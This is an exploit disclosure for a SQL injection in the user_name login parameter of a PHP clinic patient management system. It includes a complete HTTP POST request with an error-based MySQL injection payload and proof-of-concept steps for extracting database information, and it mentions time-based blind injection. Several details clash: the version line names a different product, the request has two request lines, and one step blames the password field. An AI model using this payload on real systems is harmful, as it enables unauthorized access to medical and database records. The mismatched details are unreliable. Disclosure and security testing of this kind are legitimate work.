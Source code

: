 # Clinic's Patient Management System - index.php 'user_name' SQL inject

#### Exploit Title: Clinic's Patient Management System - index.php 'user_name' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Software Link:https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Clinic's Patient Management System does not filter the content correctly at the "index.php /user_name" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /index.php HTTP/1.1
Host: 192.168.31.35:8089
Content-Length: 103
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8089/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

user_name=admin' AND GTID_SUBSET(CONCAT(0,(SELECT user()),0),3619) AND 'XOyz'='XOyz&password=123&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in index.php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/sourcecodesql.png)

3、During manual testing, it is found that SQL error reporting injection exists, so the sensitive information and permissions of the database can be obtained by using the error reporting injection function

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/sqlresult1.png)

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/sqlresult.png)

4、Using the tool to test, it is found that there is also blind SQL time injection

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/sqlresult2.png)

